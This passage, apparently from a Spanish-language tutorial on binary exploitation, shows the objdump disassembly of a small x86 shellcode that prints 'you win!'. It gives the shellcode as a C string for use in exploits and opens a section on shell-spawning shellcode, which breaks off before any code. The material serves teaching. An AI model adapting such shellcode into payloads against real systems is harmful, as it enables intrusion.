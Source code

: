    Y el código de máquina obtenido debe coincidir con el código de máquina mostrado en la segunda columna al desensamblar con `objdump`:

   ```text
   user@abos:~$ objdump -d -M intel shellcode                     
   shellcode:     file format elf32-i386

   Disassembly of section .text:
   
   08048060 <_start>:
    8048060: eb 16                 jmp    8048078 
   
   08048062 :
    8048062: 31 c0                 xor    eax,eax
    8048064: 59                    pop    ecx
    8048065: 88 41 08              mov    BYTE PTR [ecx+0x8],al
    8048068: b0 04                 mov    al,0x4
    804806a: 31 db                 xor    ebx,ebx
    804806c: 43                    inc    ebx
    804806d: 31 d2                 xor    edx,edx
    804806f: b2 09                 mov    dl,0x9
    8048071: cd 80                 int    0x80
    8048073: b0 01                 mov    al,0x1
    8048075: 4b                    dec    ebx
    8048076: cd 80                 int    0x80
   
   08048078 :
    8048078: e8 e5 ff ff ff        call   8048062 
    804807d: 79 6f                 jns    80480ee <_end+0x66>   ; \x79\x6f = "yo"
    804807f: 75 20                 jne    80480a1 <_end+0x19>   ; \x75\x20 = "u "
    8048081: 77 69                 ja     80480ec <_end+0x64>   ; \x77\x69 = "wi"
    8048083: 6e                    outs   dx,BYTE PTR ds:[esi]  ; \x6e = "n"
    8048084: 21                    .byte 0x21                   ; \x21 = "!"
    8048085: 41                    inc    ecx                   ; \x41 = "A"
   
   ```

   Es posible ver como el string es interpretado como instrucciones; es necesario obviarlas y convertir a ASCII el código máquina para verificar el texto “you win!A”

En todos los casos el shellcode como string que vamos a usar en los exploits para imprimir el mensaje “you win!” va a ser:

```c
   shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
   shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
   shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41"           
```

#### Shellcode para lograr una shell <a id="shellcode-para-lograr-una-shell"></a>

El siguiente código de ejemplo fue tomado del libro Hacking the art of exploitation. Suponiendo que queremos obtener una shell con nuestro shellcode, de manera similar al siguiente programa en C:
